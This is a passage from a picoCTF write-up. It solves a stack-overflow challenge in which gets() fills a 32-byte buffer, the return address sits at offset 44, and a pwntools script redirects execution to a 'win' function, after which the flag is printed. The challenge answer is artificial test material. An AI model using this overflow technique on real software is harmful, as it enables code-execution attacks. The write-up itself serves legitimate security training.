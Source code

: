 ```c
  return 0;
}
```

This binary performs the vulnerable `gets()` call for a 32 character buffer - again with no length constraints on our input. Using the same tactics as before, we fuzz the input with a unique string to determine the offset of `eip`. With `pattern_create.rb` we get an offset of 44.

Appending the address of `win`, we get the flag. This exploit didn't have a public facing port, so we had to run our exploit locally on the picoCTF box.

```python
#!/usr/bin/python
from pwn import *
import sys
import os

def exploit(r):
    payload = ''
    payload += "A"*44
    payload += p32(0x080485cb)

    r.sendlineafter(': ',payload)
    r.recvline()
    r.recvline()
    print r.recvline()
    return

if __name__ == '__main__':
    name = "./vuln"
    binary = ELF(name)

    context.terminal=["tmux", "sp", "-h"]

    if len(sys.argv) > 1:
        #r = remote(HOST,PORT)
        r = process(name, env={})
    else:
        r = process(name, env={})
        gdb.attach(r, """

        c
        """)
    exploit(r)
```
```bash
picoCTF{addr3ss3s_ar3_3asy14941911}
```

## Leak Me
Given the binary and source for this challenge, we start by parsing the source code.
